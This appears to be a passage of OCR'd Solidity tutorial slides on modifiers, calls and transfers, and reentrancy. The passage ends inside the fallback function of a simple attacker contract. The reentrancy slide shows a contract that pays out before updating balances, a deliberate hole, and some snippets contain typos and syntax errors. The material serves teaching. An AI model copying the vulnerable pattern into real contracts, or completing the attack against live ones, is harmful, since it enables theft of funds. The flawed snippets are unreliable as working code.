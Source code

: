 ```solidity
}
```

----

### Solidity: Modifiers

```solidity
modifier onlyOwner() {
    require(msg.sender == owner, "plz leave");
    _;
}

function printMoney() public onlyOnwer {
    // ...
}
```

----

### Solidity: Calls & Transfers

```solidity
pragma solidity ^0.8.17;

contract Example {
    Token token;

    constructor() {
        token = new Token();
    }

    function cashout() public {
        token.transfer(msg.sender, 1 ether) // contract call
        msg.sender.call{value: 1 ether}("") // native
    }
}
```

----

### Solidity: Reentrancy

```solidity
pragma solidity ^0.8.17;

contract Example {
    mapping(address => uint256) balance;
    
    function cashout(uint256 amount) public {
        require (balance[msg.sender] > amount, "no");
        msg.sender.call{value: amount}("");
        balance[msg.sender] -= amount;
    }
}

contract Attack {
    Example e;
    
    attack(Example _e) {
        e = _e;
        e.cashout(1 ether);
    }
    
    fallback() external payable {
```